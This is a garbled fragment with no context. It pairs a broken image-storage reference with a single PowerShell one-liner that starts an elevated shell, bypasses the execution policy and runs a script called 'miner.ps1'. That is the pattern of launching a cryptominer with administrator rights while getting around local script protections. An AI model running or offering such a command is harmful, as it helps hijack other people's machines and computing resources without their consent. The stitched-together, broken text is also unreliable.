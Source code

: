 ``` powershell -Command "Start-Process powershell -ArgumentList '-ExecutionPolicy Bypass -File \"miner.ps1\"' -Verb RunAs" ```
